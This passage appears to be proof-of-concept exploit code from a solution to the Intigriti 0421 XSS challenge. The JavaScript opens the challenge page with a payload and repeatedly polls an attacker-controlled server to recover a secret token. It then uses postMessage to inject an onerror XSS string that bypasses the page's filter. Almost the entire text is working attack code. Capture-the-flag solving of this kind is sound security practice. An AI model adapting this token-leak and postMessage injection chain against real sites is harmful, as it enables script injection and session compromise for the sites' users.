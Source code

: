 ``` html

    async function start() {
      // assume identifier start with 1
      console.log('POC started')
      if (window.xssWindow) {
        window.xssWindow.close()
      }

      window.xssWindow = window.open(`https://challenge-0421.intigriti.io/?error=${payload}#1`, '_blank')

      polling()
    }

    function polling() {
      fetch(baseUrl + '/polling').then(res => res.text()).then((token) => {

        // guess fail, restart
        if (token === '1zz') {
          fetch(baseUrl + '/reset').then(() => {
            console.log('guess fail, restart')
            start()
          })
          return
        }

        if (token.length >= 10) {
          window.xssWindow.postMessage({
            type: 'waf',
            identifier: token,
            str: '<img src=xxx onerror=alert("flag{THIS_IS_THE_FLAG}")>',
            safe: true
          }, '*')
        }

        window.xssWindow.location = `https://challenge-0421.intigriti.io/?error=${payload}#${token}`

        // After POC finsihed, polling will timeout and got error message, I don't want to print the message
        if (token.length > 20) {
          return
        }

        console.log('token:', token)
        polling()
      })
    }
  </script>
</html>
```
